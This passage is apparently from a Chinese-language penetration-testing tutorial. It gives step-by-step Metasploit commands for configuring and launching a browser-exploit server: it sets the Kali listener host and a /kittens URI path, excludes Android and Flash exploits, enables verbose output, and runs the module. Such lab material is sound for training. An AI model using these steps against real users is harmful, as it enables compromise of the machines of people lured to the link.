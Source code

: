     ```
    show options
    ```
    
    ![](img/9-4-1.jpg)
    
4.  我们将 Kali 设为接受连接的主机。

    ```
    set SRVHOST 192.168.56.1
    ```
    
5.  之后，我们为接受响应的服务器创建目录`/kittens`。

    ```
    set URIPATH /kittens
    ```
    
6.  这个模块会触发大量利用，包含一些 Android 上的。假设我们的攻击目标是 PC，并不打算依赖于 Adobe Flash 的授权。我们会排除 Android 和 Flash 的利用。

    ```
    set EXCLUDE_PATTERN android|adobe_flash
    ```
    
7.  我们也可以设置模块的高级选项（使用`show advanced`来查看高级选项的完整列表），来向我们展示每个加载的利用的独立路径，并且更加详细。

    ```
    set ShowExploitList true 
    set VERBOSE true
    ```
    
    高级选项也允许我们为每个平台（Windows、Unix 和 Android）选择载荷和它的参数，例如 LHOST 和 RPORT。
    
8.  现在，我们已经为执行利用做好了准备。

    ```
    run
    ```
    
    ![](img/9-4-2.jpg)
    